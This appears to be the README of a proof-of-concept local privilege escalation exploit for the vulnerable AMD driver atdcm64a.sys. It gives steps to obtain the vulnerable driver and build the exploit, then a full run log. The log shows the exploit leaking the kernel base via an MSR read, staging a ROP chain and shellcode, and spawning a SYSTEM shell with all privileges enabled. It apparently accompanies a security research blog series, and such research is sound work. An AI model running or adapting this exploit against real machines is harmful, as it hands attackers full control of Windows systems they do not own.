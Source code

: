 # ATDCM64a.sys LPE POC

Exploit for atdcm64a.sys vulnerable driver. The vulnerable driver can be downloaded from this [link](https://drivers.amd.com/drivers/beta/win10-64bit-radeon-software-adrenalin-edition-18.12.1.1-dec5.exe).
If not possible follow this procedure:
1. Navigate to this [link](https://www.amd.com/en/support/downloads/previous-drivers.html/graphics/radeon-600-500-400/radeon-rx-500-series/radeon-rx-580.html)
2. Expand the “Windows 10 – 64-bit Edition” tab
3. Download the package Adrenalin Edition 18.12.1.1 Optional (Release date: 2018-12-05)
   
All info are in the blog series [here](https://security.humanativaspa.it/tag/atdcm64a/).

## Compile

Compile with Visual Studio using `Release` `x64`. Exploit will be located at `.\x64\Release\DrvExpTemplate.exe`. Ignore error of type `Exit from command copy <path> x:\temp\`. This command was executed in order to deploy automatically to the compiled exploit on the target machine, therefore you can ignore the error. 

## Run

```
PS > whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
PS C:\Users\IEUser\Desktop> .\DrvExpTemplate.exe
[+] Opened handle to device: 0x00000000000000D0
[+] User buffer allocated: 0x0000025BEC060000
[*] sent IOCTL_READMSR
[+] readMSR success.
[+] IA32_LSTAR = 0xFFFFF800264F61C0
[+] g_ntbase = 0xFFFFF80025A00000
[+] object = 0x0000001AFEFF0000
[+] second object = 0x0000001AFEFFFFD0
[+] ptr = 0x0000001AFF000000
[+] object2 = 0x0000025BEC080000
[+] driverObject = 0x0000025BEC090000
[+] ptr->AttachedDevice = 0x0000025BEC080030
[*] fake_stack = 0x00000000FEFF0000
[+] VirtualLock returned successfully
[*] ropStack = 0x00000000FF000000
[*] sc = 0x00001A1A1A003500
[*] pml4shellcode_index 0x0000000000000034
[+] User buffer allocated: 0x0000025BEC070000
[*] sent IOCTL_ARBITRARYCALLDRIVER
[+] arbitraryCallDriver returned successfully.
[*] spawning system shell...
Microsoft Windows [Version 10.0.22631.2861]
(c) Microsoft Corporation. All rights reserved.

>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeTrustedCredManAccessPrivilege           Access Credential Manager as a trusted caller                      Enabled
SeRelabelPrivilege                        Modify an object label                                             Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

>
```
## References

* https://ommadawn46.medium.com/windows-kernel-exploitation-hevd-on-windows-10-22h2-b407c6f5b8f7

